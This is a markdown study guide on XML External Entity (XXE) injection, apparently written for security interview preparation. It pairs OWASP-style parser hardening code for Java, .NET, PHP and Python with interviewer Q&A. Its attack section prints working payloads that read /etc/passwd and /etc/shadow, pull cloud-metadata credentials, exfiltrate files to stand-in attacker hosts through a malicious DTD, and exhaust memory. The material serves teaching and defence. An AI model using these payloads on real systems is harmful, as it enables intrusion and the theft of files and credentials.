

# XML External Entity (XXE) Injection

> XXE is not a bug in XML data, it is a dangerous default in the XML parser. The XML specification lets a document declare entities (named macros) in its DTD, and lets those entities be external: their value is a URI (a file path or URL) that the parser dereferences at parse time. When an application feeds attacker-influenced XML to a parser that still honors external entities and DTDs, the attacker can name any file or internal URL and have the parser fetch it. Root cause is therefore "the parser resolves external entities and external DTDs," not "the XML contained something malicious." Every mitigation is about turning those parser features off.

**Interview frequency:** Common

*See also: [File Upload and Storage Security](103-file-upload-storage-security.md) for where XXE resurfaces downstream of upload validation, in preview/OCR/conversion pipelines that parse Office, XML, or SVG files a second time.*

## How it works

XML documents can carry a Document Type Definition (DTD) inside an optional `DOCTYPE` at the top. The DTD can be internal (fully inline in the `DOCTYPE`), external (loaded from a URI via `SYSTEM`/`PUBLIC`), or a hybrid of both. The DTD is where entities are declared, and entities are the whole game.

There are several kinds of entity, and the distinctions matter for exploitation:

- Built-in entities: `&lt;`, `&gt;`, `&amp;`, `&quot;`, `&apos;`. Always available.
- General (custom) internal entities: declared in the DTD, referenced in the document body with `&name;`.
- General external entities: value loaded from a URI. This is the classic file-read primitive.
- Parameter entities: declared with a `%` and referenced only inside the DTD with `%name;`. These are the key to blind and out-of-band exploitation, because parameters can be used in positions and combinations that general entities cannot.

A minimal internal custom entity:

```xml
<!DOCTYPE foo [ <!ENTITY myentity "my entity value" > ]>
<foo>&myentity;</foo>
```

An external general entity, whose value the parser fetches from a URI:

```xml
<!DOCTYPE foo [ <!ENTITY ext SYSTEM "file:///etc/passwd" > ]>
<foo>&ext;</foo>
```

A parameter entity, referenceable only within the DTD:

```xml
<!ENTITY % myparameterentity "my parameter entity value">
%myparameterentity;
```

The parser's job at parse time is to expand every referenced entity. For an external entity it opens the URI (via `file://`, `http://`, `ftp://`, or whatever protocol handlers the platform library registers) and inlines the bytes it reads back. The application never asked for this; it just called a standard parse API on a factory whose defaults allow it.



Two structural rules from the XML specification drive the advanced attacks<sup>[[1]](#ref1)</sup>:

- A parameter entity may be used inside the definition of another parameter entity only in an external DTD subset, not in an internal one. Nested parameter-entity tricks therefore need an external DTD (yours, over the network, or a local file already on disk).
- An internal DTD may redefine an entity that an external DTD declared. This loophole is what makes the local-DTD-repurposing attack possible.

## Quick reference

```
# Classic in-band file read: DTD declares an external entity, body references it
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
# Parser dereferences the SYSTEM URI at parse time and splices the file's bytes into &xxe;,
# which the app reflects back, e.g. "Invalid product ID: root:x:0:0:..."
```

| Invariant | Where enforced | How violated | Source |
|---|---|---|---|
| DOCTYPE/DTD processing is disabled at the parser by an explicit feature flag, not screened in application code | XML parser factory config (`disallow-doctype-decl`, `XmlResolver = null`, `DtdProcessing.Prohibit`) | Default parser leaves DTDs enabled, so a submitted `<!DOCTYPE>` with `SYSTEM "file:///etc/passwd"` is parsed and dereferenced | <sup>[[2]](#ref2)</sup> |
| External entity and external DTD resolution never crosses the trust boundary to an attacker-chosen URI | `external-general-entities` / `external-parameter-entities` / `load-external-dtd` parser settings | Parser is still permitted to fetch `SYSTEM` URIs, so pointing an entity at cloud metadata (`169.254.169.254`) turns XXE into SSRF | <sup>[[2]](#ref2)</sup> |
| A parameter entity may nest inside another parameter entity's definition only within an external DTD subset | XML specification / parser's DTD-subset handling | Attacker hosts an external DTD purely to legally build the dynamic `%eval`/`%exfiltrate` chain for blind exfiltration | <sup>[[3]](#ref3)</sup> |
| External DTD loading being off is what prevents local-DTD redefinition, not external-entity flags alone | Parser's external-DTD-loading toggle | An internal DTD redefines a parameter entity from an already-present on-disk DTD, rebuilding the exfiltration chain with zero network egress | <sup>[[4]](#ref4)</sup> |
| Any XML-parsing pipeline reachable by user input (uploads, converters, rasterizers) gets the same hardening as the main API parser | Document/image ingestion pipeline (SVG/OOXML/SAML parsers), not just the primary endpoint | An SVG or DOCX upload is parsed by an unhardened thumbnailer/rasterizer even though the main API parser is hardened, reopening file read and SSRF | <sup>[[5]](#ref5)</sup> |
| Entity-expansion depth/count is bounded independently of the DTD-disable setting | Parser's entity-expansion limit | Nested internal general entities (billion laughs) still exhaust memory even when external entities and DTD loading are fully disabled | <sup>[[1]](#ref1)</sup> |

## Attack techniques

### 1. In-band file retrieval (classic)

Declare an external entity pointing at a file and reference it in a data value that the application echoes back.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```

Why it works: `SYSTEM "file:///etc/passwd"` makes the parser open the file and substitute its bytes for `&xxe;`, and the reflected `productId` carries them into the response (for example `Invalid product ID: root:x:0:0:...`).<sup>[[2]](#ref2)</sup> Confirmation: the file contents appear in the response. In real targets there are many data nodes; test each node individually, since only some are reflected. File reads via `file://` do not suffer the newline/URL-validation issues that plague the OOB `http://` exfil path, so in-band reads of `/etc/passwd` are reliable.

### 2. XXE to SSRF

Point the entity at an internal URL instead of a file.

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```

Why it works: the parser performs an HTTP GET from the server's network position, so it reaches internal-only services and cloud metadata endpoints (AWS IMDS `169.254.169.254`, GCP `metadata.google.internal`).<sup>[[2]](#ref2)</sup> If the entity value is reflected you get two-way SSRF (you see the response body, so you can read metadata and internal pages). If not, it is blind SSRF, still useful for hitting internal endpoints with side effects. XXE is one of the cleanest SSRF primitives because the parser follows the URL for you. Limitation: the entity value must be a valid URI, so you generally cannot smuggle raw `gopher://`-style CRLF payloads the way a full SSRF sink allows unless the platform registers that handler.

### 3. Blind detection via out-of-band (OAST) interaction

When nothing is reflected, prove the vulnerability by forcing a callback to infrastructure you control (Burp Collaborator is built for this).<sup>[[3]](#ref3)</sup>

```xml
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://YOUR-ID.oastify.com"> %xxe; ]>
```

Why it works: even blind parsers still resolve the URI, causing a DNS lookup and HTTP request to your host. Using a parameter entity (`%xxe;` referenced inside the DTD) is the robust form, because some input validation or parser hardening blocks general external entities while still processing parameter entities. Confirmation: a DNS or HTTP hit lands on your collaborator.

### 4. Blind exfiltration via a malicious external DTD

Host a DTD on your server that reads a file into a parameter entity and beacons it out.<sup>[[3]](#ref3)</sup>

Malicious DTD served at `http://web-attacker.com/malicious.dtd`:

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```

In-band payload that pulls the DTD in:

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://web-attacker.com/malicious.dtd"> %xxe;]>
```

Why it works: `%file` captures the file contents; `%eval` is a dynamic declaration (note `&#x25;`, the escaped `%`, so the inner `%exfiltrate` is declared only when `%eval` is expanded) that builds `%exfiltrate` with the file contents interpolated into a URL; expanding `%exfiltrate` performs the request. The whole nested-parameter-entity dance is legal because it lives in an external DTD. Confirmation: the file contents arrive as a query-string parameter in your web log. Caveat: some parsers validate the characters allowed in the URI, so multiline files (like `/etc/passwd`) may fail; fall back to `ftp://` exfil, or target a single-line file such as `/etc/hostname`.

### 5. Error-based exfiltration

When OOB egress is blocked but verbose parser errors are shown, coerce the file contents into an error message.<sup>[[3]](#ref3)</sup>

External DTD:

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

Why it works: `%error` tries to open `file:///nonexistent/<contents-of-passwd>`, and the resulting `java.io.FileNotFoundException: /nonexistent/root:x:0:0:...` leaks the file inside the path in the exception text. Confirmation: the sensitive data appears verbatim in a returned stack trace or error page.

### 6. Local DTD repurposing (no OOB egress at all)

When you cannot load a remote DTD and cannot exfiltrate over the network, reuse a DTD file that already exists on the server's disk. This technique was pioneered by Arseniy Sharoglazov and ranked number 7 in PortSwigger's Top 10 Web Hacking Techniques of 2018.<sup>[[4]](#ref4)</sup>

```xml
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```

Why it works: the internal DTD is allowed to redefine a parameter entity (here `ISOamso`, an entity that the referenced local DTD declares) declared in an external DTD, and inside that redefinition the normally-forbidden nested parameter-entity construction becomes legal. Loading `%local_dtd` interprets the on-disk DTD with your redefined entity, producing the error-based leak entirely offline. Locating a usable DTD is easy: probe common paths (Linux GNOME boxes often ship `/usr/share/yelp/dtd/docbookx.dtd`) and read the parser's error to confirm existence:

```xml
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
%local_dtd;
]>
```

Then pull the open-source DTD from the internet to find an entity name you can redefine.

### 7. XInclude (when you do not control the DOCTYPE)

If the server embeds your input into an XML document it builds (for example wrapping your value in a back-end SOAP request), you cannot add a `DOCTYPE`, so classic entity declarations are impossible. `XInclude` reaches files from within a single element you control.

```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
  <xi:include parse="text" href="file:///etc/passwd"/>
</foo>
```

Why it works: `XInclude` is a separate spec that assembles a document from sub-documents, and it operates on element content rather than requiring a DTD, so a single injected element pulls in the file. `parse="text"` returns the raw bytes. Confirmation: file contents appear where the include was placed. This is also the go-to for content-type flip attacks where you inject into one field.

### 8. Hidden attack surface (naming these is interview gold)

- SVG uploads: SVG is XML. An "image" upload that a server-side rasterizer, thumbnailer, or PDF/document converter parses is an XXE and SSRF sink even though the app only advertises PNG/JPEG.

```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/hostname"> ]>
<svg xmlns="http://www.w3.org/2000/svg" width="200" height="200">
  <text x="10" y="20">&xxe;</text>
</svg>
```

- OOXML office documents: DOCX, XLSX, PPTX are ZIP archives of XML parts (`word/document.xml`, `xl/workbook.xml`). Inject a `DOCTYPE` into one of the inner XML parts, re-zip, and upload where the server parses spreadsheets/documents. ODF is the same idea.
- SOAP and SAML: both are XML on the wire. A malicious `DOCTYPE` in a SOAP body or a SAML assertion hits the same parser weakness (SAML processing is especially sensitive because it sits in the auth path).
- Content-type flip (JSON to XML): an endpoint documented as JSON may still parse XML if you change `Content-Type: application/json` to `Content-Type: application/xml` (or `text/xml`) and send an XML body. Many stacks tolerate multiple content types on the same route.

```http
POST /action HTTP/1.1
Content-Type: application/xml
Content-Length: 138

<?xml version="1.0"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<root><name>&xxe;</name></root>
```

- Also: RSS/Atom feeds, XML-RPC, sitemap ingestion, and any "paste XML config" import feature.

### 9. Denial of service by entity expansion (Billion Laughs)

Not exfiltration, a resource-exhaustion variant of the same "entities are dangerous" theme.

```xml
<?xml version="1.0"?>
<!DOCTYPE lolz [
  <!ENTITY lol "lol">
  <!ENTITY lol2 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
  <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
  <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>
```

Why it works: nested internal general entities expand multiplicatively (each level times ten), so `&lol9;` becomes roughly a billion characters and exhausts memory/CPU. The related "quadratic blowup" uses one huge entity referenced many times to dodge simple nesting-depth limits. Confirmation: the parser hangs or the process OOMs. Modern parsers cap entity expansion by default, but this is the canonical DoS to name.

### 10. Base64-wrapped file read via PHP filter streams

In-band file retrieval breaks whenever the target file contains characters that are not legal in XML text: raw `<`, raw `&`, `\x00`, or non-UTF-8 byte sequences all cause the parser to reject the substituted content or corrupt the response. The same content also blows up the OOB path because it fails URI character validation before the callback ever leaves. On PHP targets (libxml2 under the hood) the fix is to wrap the read in PHP's built-in filter stream so the file is base64-encoded before it is spliced into the document:

```xml
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/etc/shadow">
]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```

The reflected value is now clean base64 that decodes offline to the raw bytes. This is the go-to primitive for reading binary files (JAR/WAR archives, compiled objects, key material) and for reading PHP source itself (which contains `<?php` opening tags that would otherwise be interpreted by the parser). Related PHP wrappers worth naming when the target is PHP: `data://` embeds an inline data URI you can drive the parser into, `expect://` gives command execution when the `expect` extension is loaded, and `phar://` is a deserialization sink on older PHP through metadata unmarshalling. Interviewers reach for this when they ask "how would you read /etc/shadow or a compiled binary through XXE?" so name the wrapper by protocol, not just by effect.

### 11. Java-specific URL handlers (jar://, netdoc://)

Exploitation depends on the protocol handlers the runtime registers, not just on the XML spec. Java's default `URL` machinery ships a handful of handlers XML parsers will happily dereference, and they unlock primitives that `file://` alone does not:

```xml
<!ENTITY xxe SYSTEM "jar:file:///path/to/archive.jar!/inner.txt">
<!ENTITY xxe SYSTEM "jar:http://attacker.example/x.jar!/file">
<!ENTITY xxe SYSTEM "netdoc:///etc/">
```

`jar:file://...!/inner.txt` reads a single file from inside a ZIP or JAR on disk, useful when the target artifact is packaged rather than loose (web app WARs, signed JARs, Android APKs). `jar:http://.../x.jar!/file` is the interesting one: the JVM downloads the JAR to a temp file, extracts, and reads the inner path. If you keep the HTTP connection open (slow-drip the response so the archive never finishes downloading), the temp file lingers on disk with a predictable path, which is the documented XXE-to-file-upload technique from the Sharoglazov work<sup>[[4]](#ref4)</sup>: you have effectively written arbitrary bytes to the server's filesystem through an XML parser. `netdoc://` is a legacy Sun handler that returns directory listings on Java, enumerating directories which `file://` cannot. Naming these Java-specific handlers is a common senior probe because it separates candidates who understand "XXE is a URL fetch through the parser" from ones who only recognise the file-read syntax.

### 12. Adjacent parser sinks: XSD schemaLocation and XSLT document()

Two sinks sit right next to XXE and get bundled into the same interview question. First, schema loading: a validating parser that honors `xsi:schemaLocation` or `xsi:noNamespaceSchemaLocation` attributes on the document root will fetch the schema URL an attacker puts there. Even without any `DOCTYPE` this gives SSRF against the parser's network position, and on some stacks the fetched schema is itself processed with entity resolution, chaining back into classic file read.

```xml
<root xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
      xsi:noNamespaceSchemaLocation="http://attacker.example/steal.xsd">
  ...
</root>
```

Second, XSLT: if the server transforms XML using an attacker-controlled stylesheet, or applies a fixed stylesheet against attacker-controlled XML that calls `document()`, XSLT 1.0's `document()` function performs arbitrary URL fetches, and processors like Xalan and Saxon expose extension functions that reach into Java or the OS, giving full RCE rather than file read. The relevant JAXP hardening is different from the classic XXE knobs: set `ACCESS_EXTERNAL_SCHEMA=""` on `SchemaFactory`/`Validator`, `ACCESS_EXTERNAL_STYLESHEET=""` and `ACCESS_EXTERNAL_DTD=""` on `TransformerFactory`, and enable `FEATURE_SECURE_PROCESSING` to block extension-function abuse. Never let untrusted input flow into an XSLT transformer at all if you can avoid it. Interviewers use this to test whether you understand that "XML parser hardening" is a family of features across several factories, not one switch.

## Defense

### Real fix

The real fix is a parser configuration change, not input filtering.

1. Disable DTDs entirely at the parser. This kills every XXE variant (file read, SSRF, OOB, error-based, local DTD, billion laughs) in one setting and is the recommended baseline whenever the app does not need DTDs.
2. If DTDs cannot be fully disabled, disable external general entities, disable external parameter entities, and disable external DTD loading (set the external-access properties to the empty string so no protocol is allowed).
3. Disable XInclude unless a feature explicitly requires it.
4. Treat uploaded documents (SVG, OOXML, ODF) as untrusted XML: parse them only with a hardened parser, or strip the `DOCTYPE`/DTD before processing. The same parser hardening must cover the document/image pipeline, not just the main API.
5. Where you own the interface, prefer a simpler format (JSON): no entities, no DTD, far smaller attack surface.

Per-parser hardening (the specifics interviewers probe), from the OWASP XML External Entity Prevention Cheat Sheet<sup>[[5]](#ref5)</sup>:

Java JAXP `DocumentBuilderFactory` / `SAXParserFactory` / DOM4J, strongest first:

```java
DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
// Best: forbid DOCTYPE outright (Xerces2). Throws on any DTD.
dbf.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
// If you cannot forbid the DOCTYPE, at least kill external entities:
dbf.setFeature("http://xml.org/sax/features/external-general-entities", false);
dbf.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
dbf.setFeature("http://apache.org/xml/features/nonvalidating/load-external-dtd", false);
dbf.setXIncludeAware(false);
dbf.setExpandEntityReferences(false);
dbf.setFeature(XMLConstants.FEATURE_SECURE_PROCESSING, true);
```

Note: these `DocumentBuilderFactory`/`SAXParserFactory` countermeasures are broken in Java before 7u67 / 8u20 (CVE-2014-6517); require a patched JRE.

Java StAX `XMLInputFactory`:

```java
// Disable DTDs entirely for this factory:
xmlInputFactory.setProperty(XMLInputFactory.SUPPORT_DTD, false);
// Or, if DTDs must stay on, block external access and external entities:
xmlInputFactory.setProperty(XMLConstants.ACCESS_EXTERNAL_DTD, "");
xmlInputFactory.setProperty("javax.xml.stream.isSupportingExternalEntities", false);
```

Java `TransformerFactory` / `SAXTransformerFactory` / `Validator` (JAXP 1.5, Java 7u40+):

```java
tf.setAttribute(XMLConstants.ACCESS_EXTERNAL_DTD, "");
tf.setAttribute(XMLConstants.ACCESS_EXTERNAL_STYLESHEET, "");
// SchemaFactory / Validator:
factory.setProperty(XMLConstants.ACCESS_EXTERNAL_DTD, "");
factory.setProperty(XMLConstants.ACCESS_EXTERNAL_SCHEMA, "");
```

.NET:

```csharp
// XmlDocument is unsafe before .NET Framework 4.5.2 because its XmlResolver
// is non-null by default. Null it out:
XmlDocument xmlDoc = new XmlDocument();
xmlDoc.XmlResolver = null;

// XmlReader: prohibit DTDs (safe by default from 4.5.2+):
XmlReaderSettings settings = new XmlReaderSettings();
settings.DtdProcessing = DtdProcessing.Prohibit;   // or Ignore
settings.XmlResolver = null;
```

Modern `XmlReader` is safe by default (DTD processing prohibited, `XmlResolver` null); it only becomes unsafe if you set `DtdProcessing = Parse` together with a non-null `XmlResolver`.

PHP (libxml2 based):

```php
// PHP 8.0+ prevents XXE by default. For older PHP, disable the external
// entity loader before parsing:
libxml_set_external_entity_loader(null);
// Do NOT pass LIBXML_NOENT (its name is misleading: it enables substitution
// of entities, increasing exposure).
```

libxml2 itself: version 2.9 and later disable XXE by default (external entity loading off). Older embedders (including iOS up through iOS6) predate this and are exposed.

Python: the stdlib parsers (`xml.sax`, `xml.etree.ElementTree`, `minidom`, `pulldom`, `xmlrpc`) are vulnerable to billion-laughs / quadratic-blowup expansion; use the `defusedxml` package, which patches the stdlib parsers to forbid DTDs, external entities, and expansion bombs.

```python
from defusedxml.ElementTree import parse
tree = parse("data.xml")   # forbids DTDs and external entities by default
```

### Defense in depth

1. Egress filtering and cloud metadata protection (IMDSv2) blunt the SSRF and OOB impact if a parser slips through; entity-expansion limits blunt DoS. Neither closes the parser-level flaw, they only reduce what a successful XXE can reach or how much damage a billion-laughs payload can do.

## Interviewer probes

Mid: "Why would you ever need a parameter entity instead of a regular entity for exfiltration?"

Principal: General entities (`&x;`) only work inside the document body, so they drive in-band reads where the response is reflected back to you. Parameter entities (`%x;`) work only inside the DTD, which is exactly what you need to build a dynamic declaration for blind or OOB exfiltration, and hardening frequently blocks general external entities while leaving parameter entities untouched. Reaching for parameter entities by reflex on any blind target is the senior tell.

Mid: "For the blind exfiltration technique, why does the malicious DTD have to be hosted externally instead of just inlined in the document?"

Principal: Because the XML specification only permits a parameter entity to be used inside the definition of another parameter entity within an external DTD subset, not an internal one. That nested "entity inside another entity's definition" construction is exactly what the exfiltration chain needs to build a dynamic URL out of file contents, so it's structurally impossible to do inline. That's also why, when egress is fully blocked, the fallback is repurposing a DTD file that already exists on disk and exploiting the loophole that an internal DTD can redefine an entity an external DTD declared.

Mid: "We found a billion-laughs style payload in a pentest report. How severe is that compared to a file-read XXE?"

Principal: Different category entirely, it's denial of service, not data theft, and conflating the two is a junior tell. It's also worth knowing it needs no external anything: it's pure internal entity expansion, so it works even against a parser that has external entities and DTD loading fully disabled unless there's also an entity-expansion limit.

Mid: "If we can't fully disable DTDs, can we just regex-strip `<!DOCTYPE`, `<!ENTITY`, and `SYSTEM` before the document reaches the parser?"

Principal: That's a common wrong answer and it fails multiple independent ways. Re-encoding the payload as UTF-16 or UTF-7 slips past an ASCII regex while the parser still decodes and processes the DTD. The `PUBLIC` identifier form dodges a filter keyed only on `SYSTEM`. Splitting the declaration across whitespace or comments the parser tolerates but the regex wasn't tuned for gets through too. And a content-type flip routes the payload around a scrubber that only runs on the JSON path. XXE is fixed at the parser, not by blacklisting keywords, because every lexical filter can be encoded around.

Mid: "We disabled external entities on our parser. Are we done?"

Principal: That's a partial fix. It stops file reads and SSRF via external entities, but parameter-entity-driven DoS can still get through, and on some parsers local DTD repurposing still works because the DTD-loading machinery itself is still enabled. Forbidding the `DOCTYPE` entirely, `disallow-doctype-decl` or the platform equivalent, is strictly stronger and is the actual baseline recommendation.

Mid: "Our main API doesn't accept XML, so we don't need to worry about XXE, correct?"

Principal: The highest-value real-world XXE is rarely the obvious XML API. It's an SVG or DOCX/XLSX upload that gets rasterized or converted server-side, a SAML assertion sitting in the auth path, or a JSON endpoint that also happens to parse XML if you flip the `Content-Type` header. Naming those hidden sinks, not just the documented API, is what separates a staff-level answer from someone who only checks the obvious entry point.

## Sources

<a id="ref1"></a>[1] PortSwigger Web Security Academy, "XML entities". Retrieved 2026. https://portswigger.net/web-security/xxe/xml-entities

<a id="ref2"></a>[2] PortSwigger Web Security Academy, "XXE injection". Retrieved 2026. https://portswigger.net/web-security/xxe

<a id="ref3"></a>[3] PortSwigger Web Security Academy, "Blind XXE". Retrieved 2026. https://portswigger.net/web-security/xxe/blind

<a id="ref4"></a>[4] Arseniy Sharoglazov, local DTD repurposing, in PortSwigger, "Top 10 Web Hacking Techniques of 2018" (#7). Retrieved 2026. https://portswigger.net/blog/top-10-web-hacking-techniques-of-2018

<a id="ref5"></a>[5] OWASP, "XML External Entity Prevention Cheat Sheet". Retrieved 2026. https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html
